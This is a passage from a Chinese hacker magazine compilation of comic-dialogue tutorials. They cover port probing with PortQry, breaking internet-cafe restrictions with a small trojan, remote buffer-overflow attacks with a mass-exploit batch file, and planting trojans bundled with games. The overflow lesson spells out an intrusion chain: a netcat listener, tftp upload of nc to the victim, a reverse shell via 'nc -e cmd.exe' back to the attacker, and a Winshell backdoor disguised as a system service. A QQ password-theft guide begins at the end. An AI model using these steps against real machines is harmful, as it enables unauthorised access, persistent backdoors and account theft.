PortQry可以代替netstat.exe来执行命令，类似Win2000下的fport.exe。更妙的是，PortQry可在Win2003下面运行（portqry local），如图3。



利用PortQry我们还可迅速观察某个端口的使用状态（portqry -wport 139），如图4。



通过加入参数-wt 2，每2秒对某个端口进行监视。

面对上面这些操作，你可能觉得没什么大不了，发现木马可全靠他们了。回头再看看它的高级使用步骤，PortQry还可进入交互的使用模式，你只需带个参数就可以了（portqry -l）：

```
C:\temp\>portqry -l
PortQry Interactive Mode
Type 'help' for a list of commands
Default Node: 127.0.0.1
```

网管员世界2003.2.20年第2期 下

## 小鸡快跑

```
Current option values:
end port=: 80
protocol=: TCP
source port= 0.(ephemeral)
```

交互模式下的使用就好比Debug的用法，这个比喻虽然不是一类的，但你用了PortQry后肯定有这样的想法，对一个站点的探测看作是对一个程序的分析。

紧接着你肯定要问：交互模式能带给我们什么好处呢？哈哈！好处可是多多啊！比如我们可以刺探IPSEC安全策略后门的计算机，还可刺探对方的开放端口。同样，还可探测对方的UDP端口。

同学：我糊涂了，帮我们演示一下吧！

章章：没问题，下面我来演示一下如何刺探对方开了IPSEC的服务器。

首先，我们设置要刺探的计算机：

```
> n 218.6.155.54
Default Node: 218.6.155.54
```

> 友情提示：218.6.155.54这台计算机IP是我的朋友的，我知道他开了IPSEC服务，而他正是在用IPSEC屏蔽掉了外网对服务器445端口的访问。

## 什么是IPSEC？

IPSEC协议是一个应用广泛、开放的VPN安全协议，目前已成为最流行的VPN解决方案。IPSEC包括AH和ESP。AH验证头提供数据源身份认证、数据完整性保护、重放攻击保护功能；ESP安全负载封装、提供数据保密、数据源身份认证、数据完整性、重放攻击保护功能。NetEye VPN在利用IPSEC自身优点的同时，对其核心和附加功能进行了专业优化和重组。另外，在IPSEC框架中还有一个必不可少的要素：Internet安全关联和密钥管理协议IKE（又名ISAKMP/Oakley），它提供自动建立安全关联和管理密钥的功能。在Windows2000里，IPSEC还可充当系统集成防火墙功能。效果更棒！

```
.OK！现在我们再来看看远程开了135服务没：
> set port=135
> q rpc
RPC Endpoint Mapper did not respond
UDP port 135 is FILTERED
```

看到了吗？这个表示端口是被屏蔽了的！再来：

```
> q http
```

```
.resolving service name using local services file...
TCP port resolved to the 'http' service
IP address resolved to 6xxF-2F20D880F5
querying...
TCP port 80 (http service): NOT LISTENING !
```

看到了吗？这个表示根本没开80这个服务。

下面我们再看看SNMP服务，顺便说一下SNMP的意思：

```
> q snmp
.resolving service name using local services file...
UDP port resolved to the 'snmp' service
Name resolved to 218.6.155.54
querying...
UDP port 161 (snmp service): LISTENING or FILTERED
In order to get a response from the SNMP service, the community name in the query must match a community name that the SNMP service is configured to accept
By default PortQry uses the community name: public
.Use the 'set cn' command to specify a different name if needed
...community name for query:
public
Sending SNMP query to UDP port 161...
UDP port 161 (snmp service): FILTERED
```

看到了吗？探测结果显示UDP端口是开放的，但却被IPSEC集成防火墙给屏蔽了！

利用PortQry，我们可用来解决活动目录的一些问题。当然，这些示例我们都为大家准备好了，请详见光盘。

附加示例：

以下命令会尝试将“reskit.com”解析为IP地址，然后查询相应主机上的TCP端口25：

```
portqry -n reskit.com -p tcp -e 25
```

以下命令会尝试将“169.254.0.11”解析为主机名，然后查询你所在主机上的TCP端口143、110和25（按该顺序查询）。此命令还会创建一个日志文件（Portqry.log），它包含你已运行过的命令及其输出的日志。

```
portqry -n 169.254.0.11
```

```
-p tcp -o 143,110,25 -l portqry.log
```

以下命令会尝试将my_server解析为IP地址，然后按顺序查询相应主机上指定范围的UDP端口（135-139）。此命令还会创建一个日志文件（my_server.txt），它包含你已运行的命令及其输出的日志。

```
portqry -n my_server -p
```

## 章章总结

在网络管理的道路上，我们讲求防。防=主动防御+被动防御，结合好这两款工具，你将受益匪浅！希望我的讲解能带动你积极学习的热情和动手实践的决定。一起来吧！小菜也会慢慢变成高手的。

（本文涉及的以下内容光盘有收录：Port Reporter、PortQry、附加实例）

# 如何防止自己的QQ被盗？

- 1.对于自己所使用的操作系统，务必要打上最新的补丁。因为目前有很多QQ被盗，都是因为黑客利用操作系统上未被修复的安全漏洞而侵入系统，然后通过植入木马程序，获取的QQ的密码。
- 2.对于QQ好友发过来的图片或是其他的exe可执行文件，一定要小心了。因为目前黑客盗取QQ的一个常用的方法，就是将设置好的木马程序的服务端与一个1024图片文件捆绑在一起，甚至是直接发过来一个***.jpg.exe的文件；倘若是我们不小心执行了，就会感染木马，而QQ的密码也就会被轻易的窃取了。
- 3.当我们在网吧或是在局域网内上过QQ后，在QQ的安装目录下会生成一个以我们的QQ号命名的文件夹，有许多QQ的本地密码破解程序都是利用的这个文件夹进行字典或暴力破解的，因此，我们在网吧或是局域网内上过QQ后，应该把这个文件夹删除掉。
- 4.将你的QQ密码设置的复杂一些是很有必要的，例如密码最少要有8位，不要使用诸如：1234、12345、123456、abcd以及自己生日号、家庭电话号码、自己手机号码等容易被猜解的数字作为密码。另外密码也尽可能的使用数字+字母+其他特殊符号；这样的密码不论是使用字典籍解或是暴力破解都是很困难的。
- 5.最后一招，千万别忘记了设置QQ密码找回功能！有了这个设置，就算是你的QQ被人窃取了，也可以利用这个功能很快的找回被改的密码。

# 菜鸟无敌之双节棍

浩天

网吧的时针已经指向零点，忽然传来一声似虎非虎、似猫非猫的怪叫，网吧里众人皆想：莫非是菜鸟猫杀回来了。果然在叫声过后 0.33 秒，网吧中央闪现一人影，立刻就有一个网吧服务 MM 迎了过来。
MM：请问阁下是不是 2 岁动过鼠标；3 岁对着屏幕发笑；4 岁开始尝试砸键盘……的奇才菜虎的弟弟——多钩猫？
菜鸟猫：什么多钩猫，我是菜鸟猫，网管在哪里？我要和他决斗。
MM：我家主人去 X 档案取经还没有回来啊！不如我先陪您聊聊，等他回来。
菜鸟猫：哈哈！那太好了，我正闲得无聊（有 MM 聊天，当然好啦）。
MM：请问这次和我家主人决斗，您是使用什么武功，何种兵器？
菜鸟猫：武功当然是我菜虎大哥教我的虎拳，兵器就是我菜鸟猫自创的“双节棍”。
MM：双节棍？是不是小龙哥的双节棍？
菜鸟猫：非也，非也！传统的双节棍是由一根长 15 厘米的铁链将两根 30 厘米的钢管连接起来。而我菜鸟猫的双节棍两端分别由私服木马和 Windows 按钮突破专家组成，再通过 Winzip 来连接它们。该双节棍的主要特点是短小精悍、威力无穷，可以完成我的所有心愿。
Winzip 是网管给我提供的，而私服木马和 Windows 按钮突破专家一共才 14KB，特别适用于我的 IE 超文本下载，它们是一个完美的组合。
MM：趁我家主人还没有回来，你快给我介绍一下你的双节棍，我也想了解一下这个神奇的兵器，先说说私服木马吧！

## 一、私服木马——不走寻常路

菜鸟猫：一般人在破解网吧限制上，都是从网吧管理软件的漏洞着手，而我却喜欢使用苦肉计。正所谓我不入地狱，谁入地狱。木马的功能强大，平时是用木马来控制别人，在网吧里却是让木马来破解限制。
先勇敢的双击私服木马的服务端，它仅 4KB，是我用过的体积最小的木马。别看它身体小，却五脏俱全！接着打开私服木马的客户端，它是一个大小为 6 KB 的 html 文件（图 1）。其中，对网吧有致命打击的功能主要有三个：

- 1. 查看进程。可轻松的把我们不喜欢的程序关闭掉，一些管理软件的进程都可在这里列出来。有了私服木马，我就掌握了这些软件的生死大权，是不是很酷？
- 2. 运行网络程序。这个功能我主要用来破解网吧的下载限制，只要在“运行网络程序”前面的址栏里填上需要下载文件的路径就可以下载了，比如：http://www.abc.com/abc.exe。
- 3. Win98 下的 DOS 命令。有了强大的系统软件 DOS 作为我菜鸟猫的作战平台，还有什么事情做不到呢？查看文件夹、删除文件、新建文件……可以为所欲为了，哈哈！


MM：没想到一个 10KB 大小的木马既然能做这么多事，网管听到了一定大吃一惊。

## 二、Windows 按钮突破专家——我的地盘我做主

菜鸟猫：再来介绍一下我的另一法宝“Windows 按钮突破专家”吧！在网吧上网时，常看到一些最基本的功能也让网管蔽掉了，按钮或者菜单是灰色的，处于不可用状态（图 2）。要想使之亮起来，一般要修改注册表，要求对注册表相当熟悉，但我菜鸟猫菜呀，只好任凭网管摆布。直到有一天，我发现了它——Windows 按钮突破专家，才改变了我的生活。


别看 Windows 按钮突破专家才 4KB，却可完成许多大块头软件无法完成的任务，帮我达成心愿。它的界面不能说漂亮，甚至有些简陋。只要在“开始运行按钮突破专家”前的小方框里打上勾，就可让原本灰色的按钮亮起来，是不是很神奇（图 3）？


在网吧上网用户从来都没有自主权，现在好了，按钮都亮了起来，对文件操作已经没有限制了，删除、新建文件，我说了算。
菜鸟猫：再看一下 Windows 按钮突破专家的其他妙用，点击桌面上的“开始→设置→控制面板→添加 / 删除程序”，可完美卸载掉讨厌的一些网吧管理软件。另外，在“Internet 选项→高级”里可按自己的需要设置，比如：为了方便数据库注入，可把“显示友好 http 错误信息”前的勾除掉，而这些按钮在没有运行 Windows 按钮突破专家前是灰色的（图 4）。我的地盘我做主，Windows 按钮突破专家让我菜鸟猫走向了自由之路。


## 小鸡快跑

### 三、Winzip——一切皆有可能

MM：欢呼，菜鸟猫你真伟大！我原来以为你是一个神话，一个天才。现在我才知道，你的本事都是在网吧的限制与破解限制之间的长期战争中磨练出来的。

菜鸟猫：那当然，要是没有网管，又怎会有我今天的成绩了。哈哈！哪里有压迫，哪里就有反抗。

正在这时，忽然吹来一阵透骨的寒风，在这六月天里，更显它的阴冷。然后随风而至一个头上顶着两只麻雀的黑影，众人定眼看去，原来是网管从X档案回来了。

网管：菜鸟猫，你休要猖狂，应该是哪里有反抗，哪里就有压迫，我网管取经回来啦，哈哈！

菜鸟猫：我晕，你在土豆老大那里把他的麻雀都偷回来了，真够狠的。

网管：不偷没有办法啊！麻雀在X档案那个藏龙卧虎的地方呆了一个月，一定学到了不少东西，我把它偷回来慢慢研究，够阴险吧！在X我还注意到了一篇文章《对“谈音乐的免费下载”的补充》，里面说到“但如果是Win98等，找临时文件夹就很麻烦”。而你的IE超文本下载就是在IE临时文件夹上着手的，这句话给了我灵感，即我把IE临时文件藏深点，让你找不到，IE超文本下载就再也不可能下载文件了。

菜鸟猫：看来你去X没白跑啊，一下就学以致用了，怕怕！好的，今天就让你见识一下我的本事。别人暴数据库，我菜鸟猫暴文件夹。随便打开一个网页，用鼠标点击右键，选择“查看源文件”，在弹出的记事本里面任意改掉几个字符，然后关闭记事本，这时就会出现一个提示：下载到IE临时文件夹中的网页已经修改，是否保存修改？而这时你看到的就是IE临时文件夹的路径（图5）。是不是比X找临时文件夹更方便？呵呵，只要动脑筋，就一切皆有可能。

【图5：代码片段】

菜鸟猫：这时，让我用Winzip来破解查看磁盘的限制，没有听说过吧？看好了。随便找一个文件用Winzip压缩一下，或者找后缀名为zip的文件。双击它，就会自动调用Winzip来压缩，在Winzip的“向导→解压”里选定我要打开的文件夹，解压后就可打开它（图6）！

【图6：WinZip界面】

这时所有的喜悦尽在不言中。另外，用Winzip来复制文件我在上一期的战斗中已经用过了，网管你还想试一下吗？

网管：厉害啊！看来这次去X取经我太浮躁了，经没取到，到是不怀好意的把土豆的麻雀偷了回来，我该死，我该死！

菜鸟猫：技术的提高不是靠耍小聪明的，而是靠不懈的钻研，明白了吗？每个月的X档案出来了，我都要反复看上十几遍，那你这个样子。以后X档案你每个月都要买，每篇文章给我看50遍，多么好的书啊，哈哈（好象有广告嫌疑）！

网管：是……我一定买，一定看。没想到我这么晚出场，却这么早就让打败了，5555……

一声似虎非虎、似猫非猫的怪叫之后，菜鸟猫飞舞着双节棍随风飘远，走时还嘀咕一句：网管，记得把土豆老大的麻雀还给他，不然我扁你。

> > 致谢：特别感谢天使吻了我对“菜鸟猫反击网管”系列文章提到的破解方法和工具在111有个网吧和3个无盘系统网吧中进行测试，并提出宝贵意见！）

（本文涉及的私服木马和Windows按钮突破专家光盘已收录）


## 小鸡快跑情景剧之 风暴课堂（三）

## 溢出实战篇

风暴雨


> > 注意：本文讲的例子以缓冲区溢出为基准，在阅读本文前，最好参考一下本期小手册里详细描述的缓冲区溢出原理知识。

某日，风暴雨与风暴绝影在街上相遇……

风暴绝影：大哥呀，行行好吧！大雪封门好几天，家里都揭不开锅啦！

风暴雨：？？

风暴绝影：我有一个小小的要求，你不会把我拒之门外吧？我可是满腹经纶、风流倜傥、文武双全、倾城倾国、万人敬仰、晓古通今、X档案“首席帅哥”……

风暴雨（汗`）：！！！？？？`~ ## %￥ #@……到底干嘛``我没欠你钱呀！既然那么“厉害”，还找我干啥？

风暴绝影：我想到你的学校混个校长什么的玩玩，大家都是风暴一族，大哥别小气啦！

## 溢出的原理知识

于是，新学期第三节课上……

风暴绝影：咳！上课呢，风暴雨老师讲解了最简单的弱口令入侵，这真是一种很无能、很垃圾的方法，所以根本没什么价值，所以呢……

风暴雨：我讲得没价值？找打呀（一脚开去）！

（只见一火球伴随着风暴绝影恐怖的叫声穿过大气层，向X X星飞去……）

学生N：哇！风飘老师的大力外挂果然厉害……

风暴雨：哎！现在的新老师真是没水平，以后我还是辛苦一下亲自给大家上课吧！不过有一点是对的。随着人们安全意识的提高，有弱口令的机器越来越少了，老师曾经连续扫描一个密集IP段50多个小时，只发现了6只有弱口令小鸡。

学生A：那有没有更有效的方法呀？

风暴雨：那就再给你们讲讲“溢出”。

学生N：溢出？

风暴雨：对，缓冲区溢出，必须掌握的！这也是一种最常用的攻击手法。据统计，通过缓冲区溢出进行的攻击占所有系统攻击总数的80%。


圆周X档案2001.2004合订本(下集)

## 小鸡快跑

凤凰：在溢出前首先来监听一个本地端口，用来得到shell。我们用的工具是NC。

学生 N：NC是什么东东？在前面加一条“反斜杠”我例认识！

学生 A：NC前加一个反斜杠？“\”+“NC” = … “WC” …

凤凰：我真想买块“康师傅”把你砸死！“NC”即“Netcat”，是个网络连接器，它的功能非常强大！所以被称作“瑞士军刀”。是连菜鸟都必不可少的东东！用N C 监听一个本地端口用命令nc.exe -l -vv -p 80，其中参数“-l”表示监听模式，用于入站连接；“-vv”表示显示详细信息；“-p”就是监听的端口（光盘已收录了四个版本的N C 及教程）。然后就用blackhit 目标IP 监听IP（也就是本地IP） 监听端口来溢出了（图1）


学生 A：可我怎么知道哪个IP 可以溢出呢？一个个的试不累死……

凤凰：呵呵！我们就让它有“扫描”功能。我给大家写了个批处理black.bat（整套工具放光盘的工具包里了），你再制作一个IP 列表。运行black.bat，程序就会自动去溢出列表中所有的IP 了，剩下的就是去泡杯咖啡祈祷吧！

- 小提示：如何制作IP列表？

关于IP列表，虽然没有什么专门的软件来制作，但制作方法还是很多的。你可用扫描器，比如scan500.exe；可用命令scan500.exe -p 3389 起始IP 结束IP。这样，一个开放了3389端口主机的IP列表就制作好了，这样溢出后可直接添加用户用终端登陆了。

或者你也可以用字典工具，比如字典专家roducePass；它可单独设置每位密码的字符，我们把字典的第一位设置为IP 的第一段，然后第二位是“.”第三位为IP 的第二段……以此类推。这样就能制作一个包含从开始IP 到结束IP 的全部IP 列表了，当然也许是空IP，这就要看你选择的技巧了。


- 小提示：有关缓冲区溢出的相关原理知识，请大家参考本期小手册。我们一般利用缓冲区溢出漏洞来攻击有Root/System权限的程序，就是精心构造数据的长度，使恶意代码正好覆盖在内存中一个有Root/System执行权限的区域。通过特定的shellcode来获得Root的shell。

学生 X：老师，那个传说中的shellcode是什么呀？

凤凰：所谓的shellcode，就是攻击要调用的API函数。可以说就是溢出后执行得到shell的代码。

学生 N：可那些堆栈什么的我还是不懂耶！

凤凰：看来现在讲这些深了点儿，这要求你有一定的C语言和汇编基础。

PLMM：我好像明白了，就像是一张白纸，在上面画上表格。如果表格画的不够大，向里面写东西时多出来的信息就只好写进下一个表格内了，而别人会把这些信息当作是下一格的来读。

凤凰：好聪明哟！就是这个意思。

PLMM：那……如果我们发送的数据很大，甚至比整个内存还要大会怎么样呢？塞的太多机器会不会爆呀！

凤凰：晕！我给你点儿阳光就灿烂，给你点儿洪水就泛滥，给你点儿灵感就玩儿扯蛋。那样当然会使系统瘫痪了。你当内存是炸弹呀（MM就是单纯）！

PLMM：#$%&*%……

学生 A：可是老师，我还有一个小问题，就是我们怎么才能知道哪个系统存在漏洞？发送多长的数据内容？要怎样发送才能得到一个shell？

凤凰（汗```不会```）：这些都是绝世高手在研究的内容，现在已经有很多缓冲区溢出问题被发现了，并且高手们已经为我们编写好了exploit，即溢出程序。它们会根据系统类型发送适当的数据制造溢出，插入代码可以得到shell，简单易用，而且是全自动的。如风靡一时的RPC、Serv-U MDTM溢出、SSL溢出……

学生 N：怎么会这么多呀！

凤凰：由于程序本身的复杂性和C语言本身的原因，致使高手写的程序也很难彻底防止被溢出。新的溢出漏洞会不断被发现。针对不同程序的exploit用法也都很简单。

- 小知识：常见的溢出可分为本地溢出和远程溢出。本地溢出就是溢出本地计算机，常用于提升权限（比如单位的电脑你只有guest权限，则可通过本地溢出取得Administrator权限）。用过最多的就是远程溢出，一般是通过溢出远程主机提供的某些服务溢出得到远程主机的相应权限，以达到渗透攻击的目的。

### 实践演练

学生 A：别说没用的了，快教我们怎么用吧！

凤凰：你们要记住，伟大的凤凰雨在今天说过，实践是检验真理的唯一路径，我们现在就要来实践了。

PLMM：又来了……

凤凰：本地溢出很简单，基本不用做什么设置。找到溢出程序，下载后直接运行即可得到System权限的shell，没什么好说的。至于远程溢出，让我们先玩玩黑冰防火墙的溢出吧！

凤凰：虽然黑冰的最新版已修复了此缓冲区溢出漏洞，但还有很多人没有及时升级。从网上下载一个黑冰的exploit（即溢出程序），在命令行下直接运行就会显示用法：

blackhit <hostname> <listenhost> <listenport>

listenhost, port: connect back host and port

学生 X：那些符号是什么意思呀？看不懂。

凤凰（暗想：呀！第一节忘讲了`_`）：程序提示中符号的表示意义如下：

尖括号“< >”：该符号为必选参数表示符，即括号中的参数是不能省略的。

方括号“[ ]”：该符号为可选参数表示符，即括号中的参数是可以省略的。

花括号“{ }”：花括号中包含多中取一的参数。

竖线“ | ”：该符号为多中取一表示符，竖线分隔多个选项，用户必须选择其中之一。

凤凰：差不多所有的溢出程序直接运行都会像上面那样显示用法，会用一个就全部会用了。

| 符号 | 含义 |
| --- | --- |
| 尖括号“< >” | 该符号为必选参数表示符，即括号中的参数是不能省略的。 |
| 方括号“[ ]” | 该符号为可选参数表示符，即括号中的参数是可以省略的。 |
| 花括号“{ }” | 花括号中包含多中取一的参数。 |
| 竖线“\|” | 该符号为多中取一表示符，竖线分隔多个选项，用户必须选择其中之一。 |

- 小提示：提醒大家一点，很多程序直接双击运行后窗口会一闪而过，这时你在命令行下（CMD）运行就可以了。

```
F:\tools>blackhit
Blackhit <hostname> <listenhost>
<listenport>
listenhost, port: connect back host and port
```

《黑客X档案2003 2004年合订本下册》

415

## 小鸡快跑

总之，方法有很多的，这里就不一一列举了。

M+N 分钟后…………

PLMM：啊！我溢出成功了（图 2）！

凤飘：喔？现在你已经拿到一个 shell 了，能干点儿什么用不着我教你吧？

学生 X：格了他的盘！

凤飘：禁止！这可是别人的机器，不要搞破坏！这不是我们学习的目的！

学生 A：那我留个后门总行吧！可要怎么上传啊，copy 好像不行吧？

PLMM：木马木马，老师教木马！！

凤飘：我教你们用 Tftp 吧！

学生 N：那是什么？Ftp 的另一个版本？

凤飘：不是啦！Tftp 的全称为 Trivial File Transfer Protocol，即简单文件传输协议。它与 Ftp 有些相似，但也有不同。

> > 小提示：Tftp 是一种基于 UDP 连接的文件传输，使用的是 UDP 的 69 端口。因此，它可穿越许多防火墙。我们一般使用 Windows 自带的 tftp.exe 和一个 Tftp 服务器端软件构成一个完整的传输结构。正如 Tftp 的名字，简单文件传输易于实现、没有密码验证。采用 UDP 也不能 100%的保证文件的完整性，所以非常适合在“非正式场合”传送小文件。

学生 N：那 Tftp 怎么用呢？

凤飘：首先我们要在自己的机器上建立一个 Tftp 服务器，使用的软件是 Tftpd.exe，方法很简单，双击打开就行，默认设置不需要更改。程序默认的主目录就是程序所在目录，所以要把上传的文件放到这个目录下（图 3），然后在对方的 shell 中用命令 tftp -i 自己的 IP get 文件名来把文件从自己的机器传到肉鸡，其实就是用肉鸡下载。参数“-i”在传输程序时是不可少的！


PLMM：好，我试试，就把 nc.exe 传上去吧。看，这边有反映了（图 4）。


凤飘：嗯！说明文件开始传输了，传完就可以用了。既然上传了 NC，我们再用 nc 得到一个新的 shell 吧！先用命令 NC -l -p 900 来监听本地的 900 端口，然后在对方的 shell 中用 NC -e cmd.exe 你的 IP 900。这样，你就反向得到一个 cmdshell 了，这里的参数“-e”是程序重定向，一旦连接就执行，所以是个很危险的参数。

学生 X：不是已经有一个 shell 了吗？干嘛还要用 nc.exe 再得到一个呢？

凤飘：这是因为我们用溢出得到的 shell 大多数“性能”并不是很好（这要看 exploit 了），比如交互能力就比较弱，不能运行在过程中需要交互的程序上。再说，万一这个 shell game 挂了呢？

学生 X：原来如此。还是留个后门走人吧！

凤飘：好吧，那我们就用 Winshell 吧！这可是个“元老”级的后门了。首先我们要配置 Winshell，打开程序进行配置。其中“port”是 Winshell 在远程主机监听的端口；“password”是连接时的密码，防止别人用你的小鸡；“password banner”是连接后出现的提示，就是当登录 Winshell 时要求输入密码的提示信息，默认为“Password:”，可设置为空，即无提示信息；“SvcName”是当 Winshell 在 NT 系统中以服务方式运行时的服务名称；“DisplayName”是显示在 NT 服务列表中服务的名称；“Description”是服务的描述；“RegKeyName”是 Winshell 在注册表中的键值名。


这些设置的好坏关系到后门的安全性，所以最好伪装成系统必须的服务，图 5 是我设置的。另外，“AutoInstall”是当 Winshell 运行时是否自动安装，当然要选了；“DownExec”也是一项很有用的功能，就是自动从指定的地址下载程序并运行，很方便后门的升级。配置完成点“Make”生成服务端，生成的 exe 文件只有 5K，方便携带……

PLMM：搞定！我把它上传运行了。

凤飘：OK！下面我们用 Telnet 连接，Telnet 的命令格式为：Telnet 对方 IP 端口。看看图 6，我们登陆上去了！输入“？”号（不包括引号）查看帮助。它的功能很强大吧？我们可以安装后门。重启对方系统，返回一个 cmdshell，甚至可直接输入网址使用 HTTP 协议从网上下载软件！这么强大的功能在使用过程中慢慢体会吧！


PLMM：谢谢老师，这只肉鸡就送给你了。

凤飘：嘻嘻，这么好？如果我的学生每人每天送我一只鸡，那……

PLMM：又做梦了？我给你个“流光”就灿烂，给你个“洪水”就泛滥，给你只“母鸡”就玩儿扯蛋！

凤飘：这算报复吗？算了（看看表），这节课就上到这儿了，闪人！

突然，一颗流星从天空坠落。在地面形成一个半径0x128023的陨石坑，凤飘绝影冒着“热气”从坑中爬出来：等……等……我说……那种入侵方法……真的……很……很垃圾……

众人：&$#@@$!%……

（本文讲到的如下程序光盘中有收录：冰河的溢出程序、NC 的四个版本及其教程、Tftpd.exe、Winshell、scan500.exe、字典专家 ProducePass）

```
C:\>tftp
Transfers files to and from a remote computer running the TFTP service.

TFTP [-i] host [GET | PUT] source [destination]

  -i              Specifies binary image transfer mode (also called
                  octet). In binary image mode the file is moved
                  literally, byte by byte. Use this mode when
                  transferring binary files.
  host            Specifies the local or remote host.
  GET             Transfers the file destination on the remote host to
                  the file source on the local host.
  PUT             Transfers the file source on the local host to
                  the file destination on the remote host.
  source          Specifies the file to transfer.
  destination     Specifies where to transfer the file.
```


## 小鸡快跑

### 网吧攻防实战木马

honker

现在的网吧一般是C盘开机还原，不允许下载，更有甚者把ActiveX控件下载也禁止了。还有F8屏蔽、禁止浏览硬盘、REG禁止、控制面板打不开、IE里的“文件→打开”也是灰色的，任何文件在Windows下都不能粘贴，不能删除。QQ邮箱也删掉了，用QQ传文件也……所以在网吧种木马是有一定难度的。不过道高一尺、魔高一丈，下面我们就来谈谈如何破解网吧系统。

下面我们利用进入MS-DOS的方法，呵呵！不是让你进入纯DOS状态。在IE里点“查看→源文件”，是不是弹出一个记事本，我们就用这个记事本破解掉整个网吧系统。


图1

1. 在记事本里选“文件→新建”（图1），然后在里面输入“COMMAND”，再另存为一个文件。我们把新建的文件命名为1.bat，保存在桌面上，记住：要在“保存类型”里选“所有文件”（图2）。好，现在在IE里输入桌面然后回车，是不是桌面出来了？网吧一般是不会有禁止浏览桌面的，看见1.bat没？双击它，熟悉的画面是不是出来了？


图2

2. 现在我们去网上搜索网际快车，但下载协议必须是FTP，即用FTP可以下载。这里我为大家找了一个ftp://61.233.231.2/fg160a.exe，在刚才的DOS窗口里输入ftp 61.233.231.2并回车，将会叫你输入用户名，我们输入Anonymous并回车，接着会让你输入密码，这里也是Anonymous，输完后回车即可。要注意的是，输入密码时，我们是看不见任何字母的，不要以为没输进去哦（图3）！

现在你就可以下载网际快车了，输入get fg160a.exe 并回车，就开始下载了，下载完后有提示，如果要退出FTP连接，打bye 就OK了。


图3

3. 回到桌面，一个网际快车的安装文件已经出现了，把它安装好，就可下载任何软件了（菜鸟：软件下了，怎么安装木马啊？要被还原的！再废话，小心我拿砖头砸你！）。呵呵！不要慌。

4. 现在开始安装木马。众所周知，网吧都安装有还原精灵之类的软件，是还原精灵倒还好办，用还原精灵破解器就可以搞定。但如果网吧装的不是还原精灵呢？在网吧，系统盘一般是C盘，D盘、E盘等都是装游戏的。系统还原的一般都是C盘（即系统盘），绝不会还原游戏盘（也就是D盘、E盘等）。既然游戏盘不还原，我们为何不把木马装在游戏盘里呢（菜鸟：把木马放在游戏盘里，那么谁去打开呢？）这里我们就需要一个捆绑软件了，把木马和一些游戏捆绑起来，只要他玩游戏或开QQ 就会打开木马。

这样，我们的目的就达到了，捆绑软件大家都会找吧？也会用吧？以前《X档案》都介绍过的，这里我就不多说了。

（此处为装饰性分隔线）

## QQ盗密码终极方案

独孤客

某日，一高中同学打电话求我“骇”回他的QQ，念在多年同窗的份上，决定为他冲锋陷阵一回。

认识我的朋友都知道我不擅长聊天（要考社会工程学肯定不及格），只好扬长避短地给高中同学提供可行方案，让他充分发挥其社会工程学特长。当然，下手前得先准备好工具。关于盗QQ密码的工具在网上有很多，但真正比较适用的就少了，而且很多工具还是针对特定的版本。因此，在盗号前我们要尽可能多的了解对方的情况。

不料同学“骇”回QQ号一事被几个大一学弟知道了。
学弟A：大哥，你真行啊，能不能教教我啊？
学弟们：对啊，教教我们吧。
独孤客：这种盗号的事网上有很多教程，你们自己看去。
学弟B：不要啊，学长，远水救不了近火啊。
独孤客：那你们为什么要盗QQ号，你们的号都丢了吗？

学弟A：嘿嘿，不是了，偶要让我们班的女生对我刮目相看！
众人问：你班几个女生？
学弟A：两个……
众人昏昏！
学弟B：好了，你就不要推让了，我们到那边小卖部边吃边聊吧！
独孤客：既然如此，下面我就先说说怎么把丢失的QQ号盗回来。
学弟A：好兴奋……
学弟B：别打岔，大哥你说。
